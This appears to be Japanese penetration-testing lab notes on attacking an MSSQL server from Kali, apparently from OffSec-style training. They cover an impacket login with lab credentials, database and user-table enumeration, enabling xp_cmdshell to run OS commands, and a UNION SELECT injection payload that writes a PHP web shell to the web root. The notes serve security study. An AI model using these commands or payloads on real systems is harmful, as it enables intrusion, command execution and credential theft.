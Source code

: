 KaliからMSSQLインスタンスに接続する
```
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth
```

Windows OSバージョンを取得する
```
SELECT @@version;
```

利用可能なすべてのDBリストを取得する
```
SELECT name FROM sys.databases;
```
> [!NOTE]
> DBリストの取得で得られるmaster, tempdb, model, msdbはデフォルトのDB。ここにはターゲットに属するデータが含まれている可能性があるが、認証情報などの貴重なデータはユーザ定義のデフォルトじゃないDBに入っている可能性が高い。

DBを指定して、利用可能なテーブルを一覧表示する。 
- offsec.information_schema => offsecDBにおけるinformation_schema内のtableをクエリする
```
SELECT * FROM offsec.information_schema.tables;
```

usersテーブルからすべてのレコードを選択して取得する
```
select * from offsec.dbo.users;
```

簡単なSELECT文
```
SELECT 列名1, 列名2, ・・・ FROM テーブル名
```

使用するDBを選択する
```
USE <DB Name>
```

- show advanced optionsの値を1にしてオプションの表示を有効化。
- xp_cmdshellを有効化する
```
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

xp_cmdshellを使ってコマンドシェル経由のコマンド実行を行う
```
EXECUTE xp_cmdshell 'whoami';
```

UNION SELECT SQLキーワードを発行してPHPのウェブシェルをターゲットのルートディレクトリ配下に書き込む
```
' UNION SELECT "<?php system($_GET['cmd']);?>", null, null, null, null INTO OUTFILE "/var/www/html/tmp/webshell.php" -- //
```